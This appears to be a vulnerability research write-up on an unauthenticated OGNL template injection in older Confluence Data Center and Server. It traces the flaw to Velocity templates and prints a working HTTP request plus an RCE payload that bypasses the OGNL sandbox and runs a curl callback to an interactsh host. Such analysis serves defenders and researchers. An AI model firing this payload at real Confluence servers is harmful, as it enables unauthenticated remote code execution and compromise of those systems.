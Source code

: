 # Overview

### Initial Analysis

A template injection vulnerability on older versions of Confluence Data Center and Server allows an unauthenticated attacker to achieve RCE on an affected instance. Customers using an affected version must take immediate action. Most recent supported versions of Confluence Data Center and Server are not affected by this vulnerability as it was ultimately mitigated during regular version updates.

![alt text](/Research_CVE/images/image.png)

Inspecting files that had OGNL-related changes and potential vulnerabilities like dangerous sinks leading to OGNL Injection, such as ``findValue`` and ``translateVariables``, among others. 

### Patch

![alt text](/Research_CVE/images/image-9.png)

# Analysis

### Vulnerable code

```
#set( $labelValue = $stack.findValue("getText('$parameters.label')") )
#if( !$labelValue )
    #set( $labelValue = $parameters.label )
#end

#if (!$parameters.id)
    #set( $parameters.id = $parameters.name)
#end

<label id="${parameters.id}-label" for="$parameters.id">
$!labelValue
#if($parameters.required)
    <span class="aui-icon icon-required"></span>
    <span class="content">$parameters.required</span>
#end
</label>

#parse("/template/aui/text-include.vm")
```

### Identifying the Unauthenticated Attack Surface

The actual "views" in Confluence are rendered using Velocity template files. They can be accessed by hitting ``*.vm`` files, and they continue render even user no need to authenticate.

After that, searching for template files that accepted ``$parameters`` and then passed them to potentially dangerous sinks. We identified several files that directly passed the parameter values to ``$ognl.findValue`` or ``$stack.findValue``. For instance, one such file is ``confluence/template/xhtml/pagelist.vm``:

```java
#set ($pageList = $stack.findValue($parameters.pages))
```

Set up a breakpoint to debug at ``findValue``. However, when we attempted to access ``/confluence/template/xhtml/pagelist.vm`` with ``pages`` param, was not triggered.

Maybe ``$parameters.pages`` be sent by an Object instead string. Add the double quotes around ``$parameters.pages``. It would be worked.

```java
#set ($pageList = $stack.findValue("$parameters.pages"))
```

Next, look for any ``findValue`` that take in ``$parameters`` inside double quotes. And we found ``confluence/template/aui/text-inline.vm``.

```java
#set( $labelValue = $stack.findValue("getText('$parameters.label')") )
```

### OGNL

Next, we put a breakpoint on ``getText`` as well to be sure we are able to reach there and It worked. 

![alt text](/Research_CVE/images/image-5.png)

Next, breaking out of the ``getText`` function and append our OGNL expression ``#{3*33}`` but it was HTML encoded. Use some trick like unicode escapes to break out and it worked.

```
POST /template/aui/text-inline.vm HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: /
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

label=test\u0027%2b#{3*33}%2b\u0027
```

![alt text](/Research_CVE/images/image-6.png)

### RCE via OGNL injection

According to [bypass OGNL](https://github.blog/2023-01-27-bypassing-ognl-sandboxes-for-fun-and-charities/?ref=blog.projectdiscovery.io#strutsutil:~:text=(PageContextImpl)-,For%20Velocity%3A,-.KEY_velocity.struts2.context) we have the payload ``\u0027%2b#request\u005b\u0027.KEY_velocity.struts2.context\u0027\u005d.internalGet(\u0027ognl\u0027).findValue(#parameters.x,{})%2b\u0027&x=(new freemarker.template.utility.Execute()).exec({"curl {{interactsh-url}}"})``.


![alt text](/Research_CVE/images/word-image-11332-2.png)

